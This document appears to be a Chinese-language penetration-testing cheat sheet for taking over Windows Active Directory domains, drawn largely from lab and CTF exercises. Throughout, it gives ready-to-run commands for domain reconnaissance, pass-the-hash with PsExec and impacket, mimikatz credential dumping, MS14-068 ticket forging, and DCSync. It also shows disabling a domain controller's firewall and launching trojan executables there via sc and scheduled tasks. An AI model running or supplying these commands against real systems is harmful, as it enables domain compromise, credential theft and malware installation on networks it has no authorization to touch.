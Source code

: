 [干货 | 域内敏感信息搜集](https://mp.weixin.qq.com/s/nFOAb__c162gMhve3MEh_Q)

## 信息收集

```shell
net time /domain # 判断当前主机是否在域内
net user /domain
获取域内用户的详细信息：
wmic useraccount get /all

net group "domain controllers" /domain # 查看域控 OWA$
ping OWA # 域控主机即可获得域控IP
# 查看所有域成员计算机列表
net group "domain computers" /domain
# 查看域管理员, 看到管理员后 meterpreter > ps , migrate xxx 偷令牌
Net group "domain admins" /domain
# 登陆本机的域管理员
net localgroup administrators /domain
# 查看域成员 假设域为god
net view /domain:god
# 当前计算机名
hostname
# 查看域控列表
beacon> net dclist

# 三种情况
##1. 存在域，但当前用户不是域用户，提示说明权限不够
##2. 存在域，并且当前用户是域用户
##3. 当前网络环境为工作组，不存在域
```


## 攻击 

```shell
# PSTools 使用哈希传递(PTH)攻击 https://mp.weixin.qq.com/s/6BYAeo-5I1XMejyC5ec1pw
PsExec.exe \\192.168.52.138 -u god\administrator -p hongrisec@2022 -s cmd #成功，拿下域控了。
# impact: pip install impacket, win下pyexec用对应的py文件 python psexec.py xxxxxxx
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.138 #成功，拿下域控了。
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.141 #成功，拿下域控了。
# impact: 连接cmd
proxychains python3 wmiexec.py 'administrator:123qwe!ASD@192.168.93.20'
# smbclient 上传文件
proxychains smbclient //192.168.93.20/c$ -U administrator%password
smb > put mimikatz.exe # 上传文件

# msf meterpreter
meterpreter > getsystem
meterpreter > getuid
meterpreter > ps     # 非system时, 查看system权限进程，迁移
meterpreter > migrate 216
meterpreter > load kiwi  # 读取密码, 如果是64位的迁移到64位进程才能看明文
meterpreter > getsystem
meterpreter > creds_kerberos

# mimikatz
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log


win7共享给域控
copy c:\phpstudy\srn7final.exe \\192.168.52.138\c$
设置计划任务启动木马
schtasks /create /tn "test123456" /tr C:\srn7final.exe /sc once /st 14.25 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2021"
```
### ms14-068生成票据, 注入票据
[L1](https://mp.weixin.qq.com/s/tTuH3_YY_C0AuPSLfo8mTQ) [L2](https://www.freebuf.com/articles/web/340783.html)


整理信息

```ts
USER：douser
Domain：DEMO.COM
NTLM：bc23b0b4d5bf5ff42bc61fb62e13886e
SID：S-1-5-21-979886063-1111900045-1414766810-1107
PASSWORD：Dotest123
```
上传MS14-068

```shell
MS14-068.exe -u douser@DEMO.COM -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
dir 
```

通过 mimikatz 导入TGT票据将写入，从而提升为域管理员
```bat
kerberos::purge
kerberos::ptc TGT_douser@DEMO.COM.ccache
exit

dir \\WIN-ENS2VR5TR3N\c$


:: 通过文件共享将马复制到域控中
:: 运行方式2 sc , 关闭域控防火墙 上马
:: cmd 下切换高级用户权限
net use \\192.168.138.138\ipc$ "dc123.com" /user:"administrator"
sc \\WIN-ENS2VR5TR3N create ProFirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start ProFirewall
sc \\WIN-ENS2VR5TR3N create Startup binpath= "C:\shell.exe"
sc \\WIN-ENS2VR5TR3N start Startup

:: 运行方式1 schtasks
(
echo netsh advfirewall set allprofiles state off
echo shell.exe
) >1.bat
copy 1.bat \\WIN-ENS2VR5TR3N\c$ /y
copy shell.exe \\WIN-ENS2VR5TR3N\c$ /y
:: 运行方式2 schtasks
schtasks /create /S WIN-ENS2VR5TR3N /TN "test" /TR c:/1.bat /SC MINUTE /ST 21:27 /ru system /f

:: 下一步 psexec
```

### shadow-credentials
[Link](https://zhuanlan.zhihu.com/p/581451146)

条件: 以下账户拥有 msDS-KeyCredentialLink 属性的写入权限：

* 域管理员账户
* Key Admins 组中的账户
* Enterprise Key Admins 组中的账户
* 对 Active Directory 中的对象具有 GenericAll 或 GenericWrite 权限的帐户
* 机器账户对自身的 msDS-KeyCredentialLink 属性拥有写入权限

### Dsync攻击 
[Dsync](http://www.malabis.site/2022/11/12/春秋云镜-Initial/#横向移动)

DCSync攻击前提 一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

* Administrators组内的用户
* Domain Admins组内的用户
* Enterprise Admins组内的用户
* 域控制器的计算机帐户
* 即：默认情况下域管理员组具有该权限。
```sh
meterpreter > load kiwi
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
# 拿到hash后 通过哈希传递 拿到域控
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"

```
### DC Takeover
[Ichunqiu云境 —— Tsclient Writeup](https://mp.weixin.qq.com/s/1VDwjl_fhpZOKUy5-ZHCTQ)

# Article

[域内定位个人PC的三种方式](https://mp.weixin.qq.com/s/uXTo2AbmvMeNesR8rAjImw)